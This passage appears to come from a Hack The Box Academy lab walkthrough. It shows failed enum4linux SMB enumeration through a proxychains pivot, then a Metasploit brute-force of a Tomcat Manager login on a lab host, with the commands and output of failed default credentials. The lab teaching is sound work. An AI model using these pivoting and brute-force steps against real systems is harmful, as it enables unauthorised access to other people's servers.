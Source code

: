  ================================================== 
|    Password Policy Information for 172.16.8.3    |
 ================================================== 
[E] Unexpected error from polenum:
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.3:139-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK


[+] Attaching to 172.16.8.3 using a NULL share

[+] Trying protocol 139/SMB...

	[!] Protocol failed: Cannot request session (Called Name:172.16.8.3)

[+] Trying protocol 445/SMB...

	[!] Protocol failed: SAMR SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 501.

[E] Failed to get password policy with rpcclient

enum4linux complete on Tue Jun 21 21:50:07 2022
</code></pre>
<p>Unfortunately for us, this is a dead-end.</p>
<hr/>
<h2>172.16.8.50 - Tomcat</h2>
<p>Our earlier Nmap scan showed port 8080 open on this host. Browsing to <code>http://172.16.8.50:8080</code> shows the latest version of Tomcat 10 installed. Though there are no public exploits for it, we can try to brute-force the Tomcat Manager login as shown in the <a href="https://academy.hackthebox.com/module/113/section/1211">Attacking Tomcat</a> section of the <code>Attacking Common Applications</code> module. We can start another instance of Metasploit using Proxychains by typing <code>proxychains msfconsole</code> to be able to pivot through the compromised dmz01 host if we don't have routing set up via a Meterpreter session. We can then use the <code>auxiliary/scanner/http/tomcat_mgr_login</code> module to attempt to brute-force the login.</p>
<pre><code class="language-shell-session">msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; set rhosts 172.16.8.50
rhosts =&gt; 172.16.8.50
msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; set stop_on_success true
stop_on_success =&gt; true
msf6 auxiliary(scanner/http/tomcat_mgr_login) &gt; run
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.50:8080-&lt;&gt;&lt;&gt;-OK

[!] No active DB -- Credential data will not be saved!
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:admin (Incorrect)
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.50:8080-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.50:8080-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.50:8080-&lt;&gt;&lt;&gt;-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:manager (Incorrect)
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.50:8080-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.50:8080-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8081-&lt;&gt;&lt;&gt;-172.16.8.50:8080-&lt;&gt;&lt;&gt;-OK
[-] 172.16.8.50:8080 - LOGIN FAILED: admin:role1 (Incorrect)
